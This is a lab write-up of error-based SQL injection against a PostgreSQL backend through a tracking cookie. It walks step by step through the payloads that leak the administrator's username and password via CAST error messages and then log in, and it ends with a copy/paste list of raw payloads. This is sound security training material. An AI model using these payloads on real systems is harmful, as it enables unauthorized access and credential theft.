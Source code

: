 # Visible error-based SQL injection

*A clean, step‑by‑step write‑up using my original flow and raw payloads (no URL‑encoding), with tiny typo fixes and minimal notes.*

---

## 🎯 Goal
**Get creds and log in as the `administrator`.**

---

## 🔎 Discovery & Signal
- Vulnerable **parameter**: the cookie value appended into a SQL string.
- DB behavior / errors clearly look like **PostgreSQL** (e.g., *“operator does not exist…”, “LIMIT #,# syntax is not supported”*).

---

## ✅ My Exact Steps (verbatim, lightly corrected)

1. **GOAL:** Get creds, and log in as the administrator.  
2. **Finding vulnerable parameter:** cookie → `aaa'`  
3. **Error shown:** *Unterminated string literal started at position 39 in*  
   `SQL SELECT * FROM tracking WHERE id = 'aaa''`. *Expected '*`'`* **char**  
4. **Attempted fix via concatenation:** `aaa'||(SELECT 1)||'` → **fixed** (no error).  
5. **Try selecting from users:** `aaa'||(SELECT 1 FROM users)||'` → **error**  
6. **Error:** *more than one row returned by a subquery used as an expression*  
7. **Use that to our advantage (force single row):**  
   `aaaaaaa'||(SELECT 1 FROM users WHERE username='administrator')||'` → **no error**  
8. Change username → `administratorr` → **error**  
9. Change username → `administrato` → **no error**  
10. **Hypothesis:** the injected value is **length‑limited**, so need a different approach.  
11. **Tried boolean via AND (didn’t work here):**  
    `' + AND (SELECT 1 FROM users WHERE username='administrator')=1 --`  
12. **Tried grabbing a row directly (type mismatch error is useful):**  
    `' AND 1=(SELECT username FROM users limit 1) --` → **Error**: *operator does not exist: integer = character varying*  
13. **Tried casting (syntax reminder moment 😅):**  
    `' AND 1=(SELECT CAST(username FROM users limit 1)) --` → **syntax issue**  
14. **Then:** `' AND 1=CAST((SELECT username FROM users limit 1)) --` → **still wrong**  
15. **Finally:** `' AND 1=CAST((SELECT username FROM users limit 1) AS int) --` → **new error**  
16. **Error now leaks data context:** *invalid input syntax for type integer: "administrator"* ✅  
17. Tried MySQL‑style paging: `limit 2,1` → **Error**: *LIMIT #,# syntax is not supported* → use **LIMIT 1 OFFSET 1** in Postgres.  
18. We likely already have the **first user = administrator**, so pivot to **password**:  
    `' AND 1=CAST((SELECT password FROM users limit 1) AS int) --`  
19. **Error leaks password value** (e.g., *invalid input syntax for type integer: "zbup7e5fmnt72w5rhfqv"*).  
20. **Use leaked password** → log in as **administrator**.  
21. **Lab solved.** ✅

---

## 🧠 Why This Works (minimal notes)
- **PostgreSQL error‑based extraction:** Forcing a **failing CAST** (`CAST(<text> AS int)`) makes Postgres include the **offending string** in the error message → you read the secret in the error.  
- **Single‑row scalar subquery:** In string concatenation context (`'||(SELECT …)||'`), the subquery **must return 1 row**; otherwise you get *“more than one row…”*. Narrow with `WHERE …`, or use `LIMIT 1` (and `OFFSET` as needed).  
- **Paging syntax:** Postgres uses `LIMIT <n> OFFSET <m>` (not `LIMIT m,n`).  
- **Type mismatch hints:** The *“operator does not exist: integer = character varying”* error comes from comparing `1` (int) to a `text` — which is useful to pivot to casting attacks.  
- **Concatenation operator:** Postgres uses `||` for string concatenation (same as Oracle).  

> Tip: For multi‑row tables, you can iterate passwords with `LIMIT 1 OFFSET i` to walk rows; for multi‑char fields, you can switch to boolean or error‑based **per‑character** tests (e.g., `substring(password, i, 1)`) if needed.

---

## ⌨️ Raw Payloads (copy/paste — exactly as used)
```text
aaa'
aaa'||(SELECT 1)||'
aaa'||(SELECT 1 FROM users)||'
aaaaaaa'||(SELECT 1 FROM users WHERE username='administrator')||'
' + AND (SELECT 1 FROM users WHERE username='administrator')=1 --
' AND 1=(SELECT username FROM users limit 1) --
' AND 1=(SELECT CAST(username FROM users limit 1)) --
' AND 1=CAST((SELECT username FROM users limit 1)) --
' AND 1=CAST((SELECT username FROM users limit 1) AS int) --
' AND 1=CAST((SELECT password FROM users limit 1) AS int) --
```

---

## 🏁 Result
- Used Postgres **error messages** to reveal data (username/password), then authenticated as **administrator**. **Solved. ✅**
